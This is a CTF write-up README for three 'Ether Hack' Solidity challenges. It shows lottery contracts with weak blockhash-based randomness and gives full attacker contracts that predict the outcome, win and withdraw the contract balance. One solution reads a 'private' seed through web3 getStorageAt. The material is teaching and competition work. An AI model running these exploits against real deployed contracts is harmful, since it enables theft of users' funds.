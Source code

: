 # ether-hack

### My Ether Hack Solutions

# Challenge 1 : Azino 777

```Solidity
pragma solidity ^0.4.16;

contract Azino777 {

  function spin(uint256 bet) public payable {
    require(msg.value >= 0.01 ether);
    uint256 num = rand(100);
    if(num == bet) {
        msg.sender.transfer(this.balance);
    }
  }

  //Generate random number between 0 & max
  uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
  function rand(uint max) constant private returns (uint256 result){
    uint256 factor = FACTOR * 100 / max;
    uint256 lastBlockNumber = block.number - 1;
    uint256 hashVal = uint256(block.blockhash(lastBlockNumber));

    return uint256((uint256(hashVal) / factor)) % max;
  }

  function() public payable {}
}
```

Solution : Challenge 1
---
We will win this lottery if generated random number and bet both are the same then we will win this, for this make contract and calculate first your `rand` function and get the return value and make the spin call with `0.01 ether` and `100` as max, Here's Your Full Code.

```solidity
contract Attack {
    Azino777 azino = Azino777("Azino777_ADDRESS");
    uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;

  function solve(uint256 max) public payable {
    uint256 factor = FACTOR * 100 / max;
    uint256 lastBlockNumber = block.number - 1;
    uint256 hashVal = uint256(block.blockhash(lastBlockNumber));
    uint256 bet =  uint256((uint256(hashVal) / factor)) % max;
    azino.spin.value(msg.value)(bet);
  }

  function withdraw() public {
       msg.sender.transfer(address(this).balance);
  }

   function() public payable {}

}
```

# Challenge 2: Private Ryan

```solidity
pragma solidity ^0.4.16;

contract PrivateRyan {
  uint private seed = 1;

  function PrivateRyan() {
    seed = rand(256);
  }

  function spin(uint256 bet) public payable {
    require(msg.value >= 0.01 ether);
    uint256 num = rand(100);
    seed = rand(256);
    if(num == bet) {
        msg.sender.transfer(this.balance);
    }
  }

  //Generate random number between 0 & max
  uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
  function rand(uint max) constant private returns (uint256 result){
    uint256 factor = FACTOR * 100 / max;
    uint256 blockNumber = block.number - seed;
    uint256 hashVal = uint256(block.blockhash(blockNumber));

    return uint256((uint256(hashVal) / factor)) % max;
  }

  function() public payable {}
}
```

Solution : Challenge 2
---
Same as the last one but here we need seed which is private deploy the Private ryan contact and whichever network you are one use web3.js lib 
```
await web3.eth.getStorageAt("CONTRACT_ADDRESS",0);
```
it will give you hex value convert it into the dec and then rest is simple here is full code replace value.

```solidity
contract Attack {
    PrivateRyan privateRyan = PrivateRyan("PrivateRyan_ADDRESS");
     uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
     uint256 seed = YOUR_SEED_IN_DEC;


    function rand(uint256 max) public payable{
    uint256 factor = FACTOR * 100 / max;
    
   
    uint256 blockNumber = block.number - seed;
    uint256 hashVal = uint256(block.blockhash(blockNumber));

    uint256 bet=   uint256((uint256(hashVal) / factor)) % max;

    privateRyan.spin.value(msg.value)(bet);
    }

    function withdraw() public {
        msg.sender.transfer(this.balance);
    }

      function() public payable {}
}
```
# Challenge 3: WheelOfFortune

```solidity
pragma solidity ^0.4.16;

contract WheelOfFortune {
  Game[] public games;

  struct Game {
      address player;
      uint id;
      uint bet;
      uint blockNumber;
  }

  function spin(uint256 _bet) public payable {
    require(msg.value >= 0.01 ether);
    uint gameId = games.length;
    games.length++;
    games[gameId].id = gameId;
    games[gameId].player = msg.sender;
    games[gameId].bet = _bet;
    games[gameId].blockNumber = block.number;
    if (gameId > 0) {
      uint lastGameId = gameId - 1;
      uint num = rand(block.blockhash(games[lastGameId].blockNumber), 100);
      if(num == games[lastGameId].bet) {
          games[lastGameId].player.transfer(this.balance);
      }
    }
  }

  function rand(bytes32 hash, uint max) pure private returns (uint256 result){
    return uint256(keccak256(hash)) % max;
  }

  function() public payable {}
}
```

Solution : Challenge 3
---

Take look at the contract and you will see `rand(block.blockhash(games[lastGameId].blockNumber), 100)` it will become `uint256(keccak256(bytes32(0))) % max` you have to wait for the `256` Block to make next call [EVM Limitations](https://docs.soliditylang.org/en/v0.4.21/units-and-global-variables.html#block-and-transaction-properties), in this case which would be 47.
